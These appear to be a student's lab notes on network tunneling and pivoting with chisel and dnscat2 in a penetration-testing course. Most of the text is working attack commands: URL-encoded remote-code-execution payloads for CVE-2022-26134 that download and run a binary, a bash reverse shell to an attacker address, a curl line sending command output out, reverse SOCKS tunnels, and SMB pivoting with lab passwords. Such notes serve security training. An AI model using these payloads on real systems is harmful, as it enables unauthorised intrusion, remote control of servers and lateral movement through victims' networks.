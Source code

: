 ### http tunneling using chisel
- encapsulates tunnel in http, ssh encrypted using socks proxy
- Use reverse port forwarding, which is similar to SSH remote port forwarding
- we would use this if all outbound ports except HTTP are blocked as well as all incoming ports except TCP 8090 (for example)
- this situation would prevent us from using a regular reverse shell or SSH port forward
- must resemble an outgoing HTTP connection from our target if we want a connection

### Get chisel onto the host using apache
- This package contains a fast TCP/UDP tunnel, transported over HTTP, secured via SSH
- we will run a chisel server on kali, which accepts a connection from a chisel client on the target
- chisel binds a SOCKS proxy port on kali
- chisel server encapsulates whatever we send through SOCKS port and push it through the HTTP tunnel
- chisel client decapsulates it and push where addressed
- since traffic between client and server is HTTP, we can get around the DPI restrictions

```
sudo cp $(which chisel) /var/www/html/
```

 inject this payload
```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel

curl http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.181/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

test that we see the request
```
tail -f /var/log/apache2/access.log
```

start chisel server
```
chisel server --port 8080 --reverse
```

use tcpdump to inspect packets on our port
```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```


use chisel with the injection (send to background which frees up our shell)
```
/tmp/chisel client 192.168.45.181:8080 R:socks > /dev/null 2>&1 &
```

encoded payload from above to use the vulnerability present on the target
```
curl http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.181:8080%20R:socks%27%29.start%28%29%22%29%7D/
```


get some more log output
```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/

curl http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.181:8080/%27%29.start%28%29%22%29%7D/
```

looks like we need a new chisel
```
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
sudo cp ./chisel /var/www/html
```

run upload and chisel commands again and verify we now have a listener
```
ss -ntplu
```


you can't use SSH with proxychains. So instead we need to use ProxyCommand config option for ssh
- need to use ncat instead of netcat as netcat shipped with kali doesn't support proxying
- %h and %p are the host and port, which ssh fills in before running the command
- finally we can connect to the machine - sqlpass123
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.195.215
```

### VM 2
```
curl http://192.168.246.63:8090/exercises/chisel_exercise_client -o chisel_exercise_client
```

upload chisel (this one required normal version of chisel)
```
curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.181/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

start listener
```
curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.181:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

edit proxychains conf to use port 1080
```
proxychains ./chisel_exercise_client -i 10.4.246.215 -p 8008
```

### DNS tunneling - dnscat2
- DNS server makes recursive queries to nameservers over udp port 53
- dns query = root -> authoritative -> TLD -> A record

get reverse shell using  CVE-2022-26134 on the first host
```
curl -v http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/4444%200%3E%261%27%29.start%28%29%22%29%7D/
nc -nvlp 4444
```

set up remote port forwarding
```
sudo systemctl start ssh
sudo ss -ntplu
```

on client
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ssh -N -R 127.0.0.1:2347:10.4.246.215:22 kali@192.168.45.181
# sqlpass123
ssh database_admin@127.0.0.1 -p2347
```

ssh into felineauthority - 7he_C4t_c0ntro11er
```
ssh kali@192.168.246.7
```

on felineauthority
```
cd dns_tunneling
cat dnsmasq.conf
sudo dnsmasq -C dnsmasq.conf -d
sudo tcpdump -i ens192 udp port 53
cat dnsmasq_txt.conf
sudo dnsmasq -C dnsmasq_txt.conf -d
```

on pgdb - test making dns queries
```
resolvectl status
nslookup exfiltrated-data.feline.corp
nslookup -type=txt www.feline.corp
nslookup -type=txt give-me.cat-facts.internal
```

troubleshoot
```
resolvectl flush-caches
nslookup exfiltrated-data.feline.corp 192.168.246.64
```
### VM set 2 - same setup
`curl http://192.168.246.63:8090/exercises/dnscat_exercise_client -o dnscat_exercise_client`

on feline
```
sudo tcpdump -i ens192 udp port 53
```

run dnscat from pg
```
./dnscat feline.corp
```

run DNS server
```
dnscat2-server feline.corp
dnscat2> windows
dnscat2> window -i 1 # open up session on pgdb
```

now tunnel to hrshares
```
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.246.217:445
command (pgdatabase01) 1> listen 0.0.0.0:4456 172.16.246.217:4646
```

on feline open smb
```
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
./dnscat_exercise_client -i 192.168.246.7 -p 4456
```











